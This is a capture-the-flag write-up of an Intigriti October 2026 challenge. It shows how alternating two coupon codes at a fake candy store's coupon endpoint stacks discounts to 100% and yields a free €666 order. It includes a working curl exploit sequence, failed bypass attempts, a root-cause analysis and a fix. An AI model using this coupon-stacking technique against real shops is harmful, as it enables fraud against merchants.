

# Intigriti October 2026 Challenge #1026 — Halloween Store

**Challenge:** find the flag in a fake candy store and buy the €666 Midnight Collection with €66 of store credit.
**Created by:** Globules
**Solved:** 2026-10-20
**Flag:** `INTIGRITI{redacted}`

---

## The setup

The store sells five cheap bags of candy (€8.90 – €14.90) and one gift box, The Midnight Collection, for **€666.00**. Every session starts with **€66.00** of credit — ten times less than the vault.

Two coupon codes are advertised:

| Code | Discount | Requirement |
|---|---|---|
| `NIGHT20` | 20% | cart must contain the Midnight Collection |
| `NEWS30` | 30% | newsletter signup + first order + cart must contain the Midnight Collection |

The cart is append-only — there is no remove endpoint, so whatever you add stays. Discount amounts are frozen at apply time as `percent × subtotal`, and the total is `subtotal − discount`.

Making the vault affordable needs a discount of at least **€600.00 (90.09%)**. Both coupons together give exactly 50%, so the intended checkout is far out of reach. That gap is the puzzle.

## The tell

In the store frontend there is a line that never renders for normal users:

```js
promotion.percent + "% off" + (promotion.count > 1 ? ` × ${promotion.count}` : "")
```

The UI knows how to display a coupon that has been applied more than once. Nothing a user can click produces `count > 1`, so the server must have a path that does.

## Testing the coupon endpoint

`POST /api/cart/coupon` takes `{"code": "..."}` and returns the full cart. Re-sending the same code returns `409 coupon_already_applied`. That check looked solid until I tried it in a different order:

```
apply NIGHT20  -> 200, NIGHT20 count 1
apply NIGHT20  -> 409 coupon_already_applied   (correctly rejected)
apply NEWS30   -> 200, NEWS30 count 1
apply NIGHT20  -> 200, NIGHT20 count 2         (not rejected)
apply NEWS30   -> 200, NEWS30 count 2
```

The duplicate check only compares the submitted code with the **most recently applied promotion**, not with the whole promotions list. Applying a different code in between clears the way to apply the first one again.

Discounts are additive, so two stacks of each coupon give 20+20+30+30 = **100%**.

## Exploit

```
B=https://challenge-1026.challenges.intigriti.io

curl -c jar -b jar $B/api/session
curl -c jar -b jar $B/api/newsletter -H 'Content-Type: application/json' -d '{"email":"x@example.com"}'
curl -c jar -b jar $B/api/cart/items  -H 'Content-Type: application/json' -d '{"productId":"midnight-vault"}'

curl -c jar -b jar $B/api/cart/coupon -H 'Content-Type: application/json' -d '{"code":"NIGHT20"}'
curl -c jar -b jar $B/api/cart/coupon -H 'Content-Type: application/json' -d '{"code":"NEWS30"}'
curl -c jar -b jar $B/api/cart/coupon -H 'Content-Type: application/json' -d '{"code":"NIGHT20"}'
curl -c jar -b jar $B/api/cart/coupon -H 'Content-Type: application/json' -d '{"code":"NEWS30"}'

curl -c jar -b jar $B/api/checkout -H 'Content-Type: application/json' -d '{}'
```

Cart before checkout:

```
subtotal 66600  discount 66600  total 0
promotions: NIGHT20 ×2 (20%), NEWS30 ×2 (30%)
```

Checkout returns `200` with `paid: 0` and the receipt contains the flag.



## What did not work, and why

- **Unicode/case/whitespace variants** of the codes were all normalised to the same canonical code before lookup and dedupe (`NIGHT20\n`, `night20`, NBSP, tabs → same result), so there was no normalization bypass.
- **Concurrent applies** (48 parallel requests, and apply-vs-remove races) came out strictly sequential — the promotions list never gained a duplicate from racing.
- **Body overposting** (`percent`, `amount`, `count` fields) was ignored; only `code` is read.
- **Slow-body races** against checkout were pointless: the proxy buffers the request body, so the cart snapshot always includes everything added before the body was complete.

## Root cause and fix

The promotion list holds one entry per code with a `count`, and the duplicate check reads only the last element. Fix: check the submitted code against **every** promotion in the cart, enforce `count == 1` per code server-side, cap the total discount at the subtotal, and re-validate coupon eligibility at checkout.

## Impact

A shopper can stack the same promotional code without limit by alternating codes, bypassing the one-use-per-promotion rule. In this challenge that turned a €666.00 item into a €0.00 order with €66.00 of credit. In a real storefront the same bug is unbounded discount abuse, not just a challenge shortcut.
